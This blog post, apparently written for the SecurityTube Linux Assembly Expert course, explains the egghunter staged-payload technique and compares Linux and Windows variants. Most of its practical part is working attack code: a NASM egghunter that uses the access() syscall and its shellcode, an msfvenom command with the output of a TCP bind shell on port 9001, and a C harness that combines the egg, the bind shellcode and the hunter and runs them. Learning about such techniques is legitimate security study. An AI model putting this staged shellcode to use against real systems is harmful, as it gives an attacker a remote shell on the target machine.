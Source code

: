 ```yaml
---
title: SLAE32 - Assignment#3 [Egghunter]
author: bigb0ss
date: 2020-12-26 23:53:00 +0800
categories: [SLAE32, Assignment_3_Egghunter]
tags: [slae32, assembly, x86, Egghunter]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#3 Github](https://github.com/bigb0sss/SLAE32)

# Assignement #3 
* Study about the Egg Hunter shellcode
* Create a working demo of the Egghunter
* Should be configurable for different payloads

# What is Egghunter?
Personally, I have dealt with Egghunter when I was studying for the [OSCE course](https://www.offensive-security.com/offsec/retiring-ctp-intro-new-courses/) form Offensive Security. Egghunter is essentially a staged payload and is comprised with relatively short shellcode (around 30+ bytes). In a situation where the first buffer space is limited, we can implement the Egghunter shellcode there, and this will search the process memory for the much bigger buffer space where we place the signature (aka "Egg") with our final reverse/bind shellcode.

The below image is a simplified version of how Egghunter works: 

![image](/assets/img/post/slae32/assignment3/01.png)

# Egghunter In Depth

![image](/assets/img/post/slae32/assignment3/02.png)

Even though I knew what Egghunter was and how to use it, I wanted to understand it in greater detail. So I read Matt Miller's [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) to learn more about Egghunter. 

The following is the key take-away from the article:

* Per the author, 8 byte egg is recommended since it can give enough uniquness that it can eaily selected without running any high risk of a collision. 

## Linux Egghunter Implementation

* In Linux implementation, there are two main methods: 
    * 1) SIGSEGV handler to catch invalid memory address dereferences and prevent the program from crashing
    * 2) Using OS system call interface to validate process VMAs in kernel mode. 

* In Linux implementation, the SIGSEGV handler technique has a big drawback of a size issue. 

* In Linux implementation, the fact that the system call will return the `EFAULT` error code when it encounters an invalid memory space is the exact type of information needed for Egghunter since it can traverse the process' VAS without crashing the program. 

| Techniques (Linux) | Size | Executable Egg | Pros | Cons |
|:- |:- |:- |:- |
| access | 39 bytes | Yes | Very robust | Bigger size, Eggs should be executable, limiting the range of unique eggs |
| access (Improved) | 35 bytes | No | Very robust, non-executable eggs | Still a bit bigger size, Fails if Direction Flag (DF) is set | 
| sigaction | 30 bytes | No | Faster and smaller size | In certain scenarios, it may be not robust, Fails if Direction Flag (DF) is set |

## Windows Egghunter Implementation

* In Windows implementation, there are also two main methods:
    * 1) SEH (Structure Exception Handler)
    * 2) OS System call (IsBadReadPtr & NtDisplayString)

| Techniques (Windows) | Size | Executable Egg | Pros | Cons |
|:- |:- |:- |:- |
| SEH | 60 bytes | No | Can run on any Windows version, Can search eggs bigger than 8 bytes | Bigger size, Fails if Direction Flag (DF) is set |
| IsBadReadPtr | 37 bytes | No | Robust (API-based approach) | Use of a static VMA, Potential race condition, Fails if Direction Flag (DF) is set |
| NtDisplayString | 32 bytes | No | Smallest, Fastest, Most robust | Static system call number, Fails if Direction Flag (DF) is set |

# Egghunter Shellcode
For demonstration purposes, I will be using the Linux implementation of `access()` syscall version to build the Egghunter payload. Let's create the following `egghunter.nasm` file:

```s
global _start

section .text

_start:
        mov ebx, 0x50905090     ; 4 byte Egg (*Little-Endian)
        xor ecx, ecx            ; Zero out ECX
        mul ecx                 ; Zero out EAX and EDX

next_page:
        or dx, 0xfff            ; Set PAGE_SIZE 4095 (0x1000)

next_addr:
        inc edx                 ; Increment by 4095 (0x1000)
        pushad                  ; Preserve all general purposes register values onto the stack
        lea ebx, [edx+4]        ; Checking if the address is readable
        mov al, 0x21            ; Set AL to syscall access() (0x21)
        int 0x80                ; Soft-interrupt to execute the syscall

        cmp al, 0xf2            ; Check for EFAULT (Invalid memory space)
        popad                   ; Restore the preserved registers
        jz next_page            ; EFAULT --> Invalid memory space --> Next page

        cmp [edx], ebx          ; Check for the address if it contains our egg
        jnz next_addr           ; If not, go back to look for our first egg 

        cmp [edx+4], ebx        ; Check for the address + 4 if it contains our second egg 
        jnz next_addr           ; If not, go back to look for our second egg

        jmp edx                 ; Both eggs are found --> JMP to EDX --> Continue execution flow
```

## Compile + Bind Shellcode (msfvenom)

I created a simple compiler [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py). 

```console
root@kali:~/Documents/SLAE32/Exam/Assignement3# python compilerX86.py -f egghunter
 
  ________  ________  _____ ______   ________  ___  ___       _______   ________     ___    ___ ________  ________         
 |\   ____\|\   __  \|\   _ \  _   \|\   __  \|\  \|\  \     |\  ___ \ |\   __  \   |\  \  /  /|\   __  \|\   ____\        
 \ \  \___|\ \  \|\  \ \  \\\__\ \  \ \  \|\  \ \  \ \  \    \ \   __/|\ \  \|\  \  \ \  \/  / | \  \|\  \ \  \___|      
  \ \  \    \ \  \\\  \ \  \\|__| \  \ \   ____\ \  \ \  \    \ \  \_|/_\ \   _  _\  \ \    / / \ \   __  \ \  \____   
   \ \  \____\ \  \\\  \ \  \    \ \  \ \  \___|\ \  \ \  \____\ \  \_|\ \ \  \\  \|  /     \/   \ \  \|\  \ \  ___  \ 
    \ \_______\ \_______\ \__\    \ \__\ \__\    \ \__\ \_______\ \_______\ \__\\ _\ /  /\   \    \ \_______\ \_______\ 
     \|_______|\|_______|\|__|     \|__|\|__|     \|__|\|_______|\|_______|\|__|\|__/__/ /\ __\    \|_______|\|_______|    
                                                                                    |__|/ \|__|     [bigb0ss] v1.0         

[+] Assemble: egghunter.nasm
[+] Linking: egghunter.o
[+] Shellcode: "\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2"
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

Additionally, using msfvenom, let's create a bind shell:

```console
root@kali:~/Documents/SLAE32/Exam/Assignement3# msfvenom -p linux/x86/shell_bind_tcp lport=9001 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

## Final Touch

Finally, let's combine those bind shellcode and egghunter to create the following exploit script `egghunter.c`:

```c
#include <stdio.h>

unsigned char egghunter[] = \
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42"
"\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a"
"\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";

unsigned char shellcode[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50"  // Egg
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";

void main() {
    int (*ret)() = (int(*)())egghunter;
    ret();

    return 0;
}
```

![image](/assets/img/post/slae32/assignment3/03.png)


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#3 Github](https://github.com/bigb0sss/SLAE32)